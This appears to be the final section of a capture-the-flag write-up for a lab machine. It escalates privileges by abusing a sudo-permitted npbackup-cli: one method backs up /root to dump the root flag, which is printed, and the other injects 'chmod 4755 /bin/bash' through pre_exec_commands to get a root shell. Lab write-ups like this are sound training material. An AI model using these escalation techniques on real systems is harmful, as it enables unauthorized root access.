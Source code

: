 So we edit the config and add what we want.

```bash
marco@codeparttwo:~$ ls
backups  npbackup.conf  user.txt
marco@codeparttwo:~$ cp npbackup.conf .
cp: 'npbackup.conf' and './npbackup.conf' are the same file
marco@codeparttwo:~$ ls
backups  npbackup.conf  user.txt
marco@codeparttwo:~$ cp npbackup.conf escalate.conf
```

```conf
.
.
.
    backup_opts:
    - /root/
.
.
.
```
{: file="escalate.conf"}

Then we can read all the content in `/root/` folder thus we can directly read /root/root.txt.

```bash
sudo /usr/local/bin/npbackup-cli -c escalate.conf --backup
sudo /usr/local/bin/npbackup-cli -c escalate.conf --dump /root/root.txt --snapshot-id {snapshot-id}
```

![Read Root Flag](read_root_flag.png)

> **a1162be8254044b65e95e148eff01934**

This is already complete the challenge through getting the root flag.

### Root Shell

As note, we can gain root shell through the `pre_exec_commands` value in the configuration file.

```conf
.
.
.
pre_exec_commands: "chmod 4755 /bin/bash"
```
{: file="escalate.conf"}

Then just execute the commands below.

```bash
sudo /usr/local/bin/npbackup-cli -c escalate.conf --backup
/bin/bash -p
```

![Root Shell](root_shell.png)
